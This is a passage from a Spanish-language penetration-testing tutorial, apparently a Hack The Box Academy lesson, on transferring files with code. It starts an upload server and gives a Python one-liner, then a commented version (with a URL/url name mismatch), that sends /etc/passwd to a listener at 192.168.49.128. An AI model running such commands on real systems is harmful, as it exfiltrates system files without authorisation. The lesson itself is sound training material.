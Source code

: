 Transferir archivos con código

```
xnoxos@htb[/htb]$ python3 -m uploadserver File upload available at /upload
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

```

### **Cargar un archivo usando una línea Python One-Liner**

Transferir archivos con código

```
xnoxos@htb[/htb]$ python3 -c 'import requests;requests.post("http://192.168.49.128:8000/upload",files={"files":open("/etc/passwd","rb")})'
```

Dividemos esta línea de una línea en múltiples líneas para comprender mejor cada pieza.

Código:pitón

```python
# To use the requests function, we need to import the module first.
import requests

# Define the target URL where we will upload the file.
URL = "http://192.168.49.128:8000/upload"

# Define the file we want to read, open it and save it in a variable.
file = open("/etc/passwd","rb")

# Use a requests POST request to upload the file.
r = requests.post(url,files={"files":file})

```

Podemos hacer lo mismo con cualquier otro lenguaje de programación. Una buena práctica es elegir una e intentar construir un programa de carga.

---

# **Resumen de la sección**

Comprender cómo podemos usar el código para descargar y cargar archivos puede ayudarnos a lograr nuestros objetivos durante un ejercicio de equipo rojo, una prueba de penetración, una competencia de CTF, un ejercicio de respuesta a incidentes, una investigación forense o incluso en nuestro trabajo sysadmin de sysadmin cotidiano.